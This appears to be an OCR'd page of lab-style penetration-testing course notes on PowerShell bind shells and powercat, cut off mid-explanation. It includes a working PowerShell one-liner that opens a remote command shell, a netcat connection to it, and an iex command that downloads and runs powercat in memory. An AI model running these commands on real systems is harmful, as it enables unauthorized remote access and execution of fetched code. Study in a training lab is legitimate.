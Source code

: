 ```
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```



```
kali@kali:-$ nc -nv 192.168.0.198 443 
(UNKNOWN) [192.168.0.198] 443 (https) open
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::f122:da68:b61a:befe%6
   IPv4 Address. . . . . . . . . . . : 192.168.0.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
```



### Powercat

Download powercat

```
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Now that our script is loaded, we can execute powercat as follows:

```
PS C:\Users\offsec> powercat
You must select either client mode (-c) or listen mode (-l).
```

#### Powercat File Transfers

First, we run a Netcat listener on Alice's computer:

```
kali@kali:~$ sudo nc -lvnp 443 > receiving_powercat.ps1
[sudo] password for kali: 
listening on [any] 443 ...
```

Next, we wlll invoke powercat on Bob's computer. The -c option speclfies client mode and sets
the listening IP address, -p specifies the port number to connect to, and -i indicates the local file
that will be transferred remotely:
